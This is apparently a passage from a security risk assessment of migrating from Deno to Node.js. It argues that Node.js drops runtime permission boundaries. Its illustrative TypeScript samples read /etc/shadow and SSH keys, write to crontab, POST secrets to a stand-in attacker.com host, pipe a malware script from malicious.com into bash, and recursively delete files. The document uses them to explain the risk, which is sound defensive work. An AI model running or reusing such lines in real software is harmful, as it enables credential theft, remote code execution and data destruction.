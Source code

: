 ```typescript
    const process = Deno.run({ cmd: ['git', 'status'] });
    await process.status();
  }
}
```

#### Node.js Attack Vectors (Unrestricted)
```typescript
// Node.js: No permission checks - all operations allowed
class UnrestrictedAccess {
  maliciousFileAccess(): void {
    // ❌ Can read any file on system
    const secrets = readFileSync('/etc/shadow', 'utf8');
    const sshKeys = readFileSync('/home/user/.ssh/id_rsa', 'utf8');
    
    // ❌ Can write to any location
    writeFileSync('/etc/crontab', 'malicious_cron_job');
  }
  
  maliciousNetworkAccess(): void {
    // ❌ Can connect to any host/port
    const maliciousServer = new URL('https://attacker.com/exfiltrate');
    fetch(maliciousServer, { method: 'POST', body: secrets });
  }
  
  maliciousProcessExecution(): void {
    // ❌ Can execute any system command
    spawn('curl', ['http://malicious.com/malware.sh', '|', 'bash']);
    spawn('rm', ['-rf', '/home/user/important_files']);
  }
}
```

## Risk Assessment

### 1. Complete Loss of Runtime Security Boundary
**Risk Level**: 🚨 **CRITICAL**

**Current State (Deno)**:
- Runtime enforces permission boundaries
- Explicit opt-in for dangerous operations
- Granular control over system resources

**Post-Migration State (Node.js)**:
- No runtime permission enforcement
- Implicit trust for all operations
- Complete system access by default

### 2. Attack Surface Expansion
**Risk Level**: 🚨 **CRITICAL**
